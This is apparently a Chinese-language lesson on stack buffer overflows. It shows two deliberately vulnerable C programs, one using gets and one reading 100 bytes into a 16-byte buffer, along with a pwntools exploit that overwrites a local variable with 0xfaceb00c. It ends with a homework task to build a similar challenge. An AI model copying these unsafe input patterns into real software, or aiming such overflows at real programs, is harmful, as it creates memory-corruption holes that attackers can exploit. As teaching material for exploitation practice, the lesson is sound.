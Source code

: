 # D1-4
## Buffer Overflow

### 範例
範例一
```c
int main(){
  char buffer[8];
  gets(buffer);
  puts(buffer);
  return 0;
}
```

範例二
```c
//bof_var.c
#include <stdio.h>

int main() {
    int key = 1234;

    puts("Please enter your name:");
    char name[16];
    read(0, name, 100);

    if(key == 0xfaceb00c){
        puts("H...Hacker!!!!");
    }
    return 0;
}
```

Exploit
```py
from pwn import *

r = process("./bof_var")

r.recvuntil(":\n")

r.sendline('a'*28 + p32(0xfaceb00c))

r.interactive()
```
### 作業：練習出題目
請你再出一道題目並解出自己的題目，需求如下

1. 無法在正常流程下取得 Flag
2. 使用 pwntools 進行解題
